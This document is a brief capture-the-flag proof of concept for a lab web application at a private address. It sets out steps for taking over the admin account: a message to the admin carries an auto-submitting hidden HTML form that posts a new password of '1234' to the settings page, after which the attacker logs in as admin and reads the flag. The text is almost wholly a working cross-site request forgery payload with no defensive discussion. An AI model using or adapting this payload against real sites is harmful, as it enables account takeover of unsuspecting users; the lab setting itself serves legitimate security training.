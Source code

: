 # POC

- in browser open `http://10.0.2.10`
- register and read admin messages
- send message to admin
```html
<form action="http://10.0.2.10/user/settings" method="POST">
  <input type="hidden" name="password" value="1234" />
  <input type="hidden" name="cpassword" value="1234" />
</form>
<script>document.forms[0].submit();</script>
```

- wait & check login as admin with password `1234`
- go to admin panel and see the flag in flag tab

